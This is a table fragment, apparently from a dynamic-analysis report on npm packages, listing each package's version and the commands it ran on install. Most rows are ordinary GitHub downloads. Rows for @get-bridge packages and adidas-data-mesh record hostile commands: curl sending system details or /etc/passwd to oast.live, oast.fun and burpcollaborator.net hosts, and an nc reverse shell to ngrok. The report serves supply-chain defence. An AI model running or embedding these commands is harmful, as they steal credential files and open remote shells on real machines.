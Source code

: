 <tr><td>@get-bridge/bridge-string-utils</td><td>99.99.99</td><td><code>curl</code></td><td><code>curl -H Hostname: NTJhMjQ0MWY3MGMwCg== -H Whoami: cm9vdAo= -H Pwd: L2FwcC9ub2RlX21vZHVsZXMvQGdldC1icmlkZ2UvYnJpZGdlLXN0cmluZy11dGlscwo= -d dG90YWwgOQpkcnd4ci14ci14IDIgcm9vdCByb290IDQwOTYgU2VwIDExIDE5OjM0IC4KZHJ3eHIt
eHIteCAzIHJvb3Qgcm9vdCA0MDk2IFNlcCAxMSAxOTozNCAuLgotcnctci0tci0tIDEgcm9vdCBy
b290ICAyNzEgU2VwIDExIDE5OjM0IHBhY2thZ2UuanNvbgotcnd4ci14ci14IDEgcm9vdCByb290
ICAxODkgU2VwIDExIDE5OjM0IHByZS5zaAo= https://cjvm1lk0sjhuban1t120rm6bqz7iuu5ka.oast.live</code></td></tr>
<tr><td>@get-bridge/bridge-string-utils</td><td>99.99.99</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>@get-bridge/tapestry-sdk</td><td>99.99.991</td><td><code>curl</code></td><td><code>curl -H Hostname: ZjM0ZmIzZWU0NGE1Cg== -H Whoami: cm9vdAo= -H Pwd: L2FwcC9ub2RlX21vZHVsZXMvQGdldC1icmlkZ2UvdGFwZXN0cnktc2RrCg== -d dG90YWwgMTIKZHJ3eHIteHIteCAzIHJvb3Qgcm9vdCA0MDk2IFNlcCAxMSAyMDo1NSAuCmRyd3hy
LXhyLXggNSByb290IHJvb3QgNDA5NiBTZXAgMTEgMjA6NTUgLi4KZHJ3eHIteHIteCAzIHJvb3Qg
cm9vdCA0MDk2IFNlcCAxMSAyMDo1NSBAZ2V0LWJyaWRnZQo= https://cjvm1lk0sjhuban1t120rm6bqz7iuu5ka.oast.live</code></td></tr>
<tr><td>@get-bridge/tapestry-sdk</td><td>99.99.991</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>@harvard-lil/scoop</td><td>0.5.3</td><td><code>curl</code></td><td><code>curl -L https://github.com/Hakky54/certificate-ripper/releases/download/2.1.0/crip-linux-amd64.tar.gz</code></td></tr>
<tr><td>@harvard-lil/scoop</td><td>0.5.3</td><td><code>curl</code></td><td><code>curl -L https://github.com/yt-dlp/yt-dlp/releases/download/2023.07.06/yt-dlp</code></td></tr>
<tr><td>@instructure/quiz-number-input</td><td>18.0.1-rc.2</td><td><code>python</code></td><td><code>python -c import sys; print(sys.executable);</code></td></tr>
<tr><td>@molgenis/vip-report-template</td><td>5.5.4</td><td><code>curl</code></td><td><code>curl --no-progress-meter --location https://github.com/molgenis/vip-utils/releases/download/v1.4.1/field_metadata.json --create-dirs --output src/metadata/field_metadata.json</code></td></tr>
<tr><td>@molgenis/vip-report-vcf</td><td>1.4.3</td><td><code>curl</code></td><td><code>curl --no-progress-meter --location https://github.com/molgenis/vip-utils/releases/download/v1.4.1/field_metadata.json --create-dirs --output src/metadata/field_metadata.json</code></td></tr>
<tr><td>@prodperfect/cli</td><td>1.2.0</td><td><code>curl</code></td><td><code>curl --url https://github.com/stedolan/jq/releases/download/jq-1.6/jq-linux64 --request GET --output /app/node_modules/@prodperfect/cli/../../.bin/jq --location --silent --show-error --write-out \n%{http_code}</code></td></tr>
<tr><td>@xarber/xshopjs</td><td>1.0.0-b</td><td><code>/bin/echo</code></td><td><code>/bin/echo</code></td></tr>
<tr><td>@xarber/xshopjs</td><td>1.0.0-b</td><td><code>sudo</code></td><td><code>sudo apt-get install unar -y</code></td></tr>
<tr><td>adidas-data-mesh</td><td>4.4.7</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>adidas-data-mesh</td><td>4.8.7</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>adidas-data-mesh</td><td>4.8.9</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>adidas-data-mesh</td><td>6.6.6</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>adidas-data-mesh</td><td>9.4.7</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>adidas-data-mesh</td><td>9.9.4</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl --data @/etc/passwd a0359854ae4a.cm30n6w2vtc0000cv6m0gkboz5ayyyyyr.oast.fun</code></td></tr>
<tr><td>adidas-data-mesh</td><td>9.9.7</td><td><code>nc</code></td><td><code>nc tcp.in.ngrok.io 17353 -e /bin/bash</code></td></tr>
<tr><td>adidas-data-mesh</td><td>9.9.8</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl --data @/etc/passwd b19d5f54a3a0aesic9l2whlwa33aytefcnu11s7jv8.burpcollaborator.net</code></td></tr>
<tr><td>asherah</td><td>1.2.7</td><td><code>curl</code></td><td><code>curl -s -L --fail -O --retry 999 --retry-max-time 0 https://github.com/godaddy/asherah-cobhan/releases/download/v0.4.25/libasherah-x64-archive.h</code></td></tr>
<tr><td>asherah</td><td>1.2.7</td><td><code>curl</code></td><td><code>curl -s -L --fail -O --retry 999 --retry-max-time 0 https://github.com/godaddy/asherah-cobhan/releases/download/v0.4.25/libasherah-x64.a</code></td></tr>
<tr><td>asherah</td><td>1.2.9</td><td><code>curl</code></td><td><code>curl -s -L --fail -O --retry 999 --retry-max-time 0 https://github.com/godaddy/asherah-cobhan/releases/download/v0.4.25/libasherah-x64-archive.h</code></td></tr>